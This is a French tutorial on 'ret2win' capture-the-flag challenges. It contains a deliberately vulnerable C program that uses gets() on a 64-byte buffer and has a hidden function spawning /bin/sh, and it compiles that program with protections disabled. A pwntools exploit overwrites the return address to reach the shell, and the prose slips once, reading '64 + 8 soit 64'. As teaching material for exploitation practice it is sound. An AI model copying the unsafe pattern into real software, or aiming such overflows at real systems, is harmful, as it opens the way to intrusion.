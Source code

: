 
***Définition:*** Un ret2Win est une sorte de challenge dans lequel le but est d'appeler une fonction qui va nous permettre d'avoir le flag lors d'un CTF. c'est donc le détournement d'un programme afin d'appelé une fonction cacher 

***Théorie***: Le ret2win consiste à exploiter un Buffer Overflow et donc d'écraser l'adresse de retour avec celle de la fonction qui nous permet de flag soit de gagner 

***Exemple***: 

```c
#include <pty.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void diagnostic_systeme() {
    char statut[32] = "Système : OK\n";
    printf("%s", statut);
}

void nettoyage_temporaire() {
    printf("Nettoyage des fichiers temporaires ...\n");
    system("echo 'Suppression des fichiers temporaires terminée.'");
}

void mise_a_jour_systeme() {
    printf("Vérification des mises à jour...\n");
    printf("Aucune mise à jour disponible.\n");
}

void redemarrage_systeme() {
    printf("Redémarrage du système en cours...\n");
}

void vuln() {
    char buffer[64];
    printf("Veuillez entrer le journal de maintenance :\n");
    gets(buffer); 
    printf("Journal enregistré : %s\n", buffer);
}

void menu_maintenance() {
    char choix[4]; 
    printf("\n=== Menu de Maintenance ===\n");
    printf("1. Diagnostic du système\n");
    printf("2. Nettoyage des fichiers temporaires\n");
    printf("3. Mise à jour du système\n");
    printf("4. Redémarrer le système\n");
    printf("5 Ajouter un journal de maintenance\n");
    printf("Choisissez une option : ");
    fgets(choix, sizeof(choix), stdin); 

    switch (atoi(choix)) { 
        case 1:
            diagnostic_systeme();
            break;
        case 2:
            nettoyage_temporaire();
            break;
        case 3:
            mise_a_jour_systeme();
            break;
        case 4:
            redemarrage_systeme();
            break;
        case 5:
            vuln();
            break;
        default:
            printf("Option invalide.\n");
    }
}


void fonction_secrete() {
    char *const args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);  
}


int main() {
    printf("=== Outil de Maintenance PC ===\n");
    printf("Bienvenue dans le programme de maintenance veuillez choisir une option.\n");
    menu_maintenance();
    printf("Fin du programme.\n");
    return 0;
}
```


Compiler avec : 
`gcc -o overflow -fno-stack-protector -z execstack -no-pie -Wno-implicit-function-declaration overflow.c`

Ce qui nous montre qu'aucune protection n'est activé. 

Pour exploiter ce challenge nous devrons donc faire plusieurs étape:
1. Comprendre ou est l'overflow 
	1. Trouver l'offset de l'overflow
2. Comprendre ce que fait la fonction cacher (Celle qui n'est pas appelé)
	1. Trouver l'adresse de la fonction qui nous permettra d'avoir le flag
3. Construire un exploit permettant d'écraser l'adresse de retour afin d'appelé la fonction caché

	***Information de l'exemple*** :
		1. Notre fonction cacher se nomme `fonction_secrete`
		2. L'overflow se trouve dans la fonction  vuln sur le buffer de 64 bytes:
		3. On constate que la fonction cacher appelle /bin/sh qui permet de trigger un shell
		4. On se rend aussi compte que le choix vulnérable dans le menu est le choix 5 puisqu'il appelle notre fonction vulnérable

***Exploitation***:
	Pour trouver l'adresse:
			`nm ./binaire | grep "fonction_secrete"`
					Résultat: `0x401417 fonction_secrete	
	Pour trouver l'offset soit le nombre de caractère pour provoquer l'overflow nous pouvons,
		effectuer un  simple calcul 64 + 8 soit 64, la taille du buffer + la taille d'un registre  

Exploit Final:
```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

def main():
    # Connexion au programme
    p = remote("127.0.0.1", 1337)
    
    p.sendline(b'5')

    offset = 72  
    payload = b'A' * offset
    payload += p64(0x401417)
    
    p.sendline(payload)
    p.interactive()

if __name__ == '__main__':
    main()
```

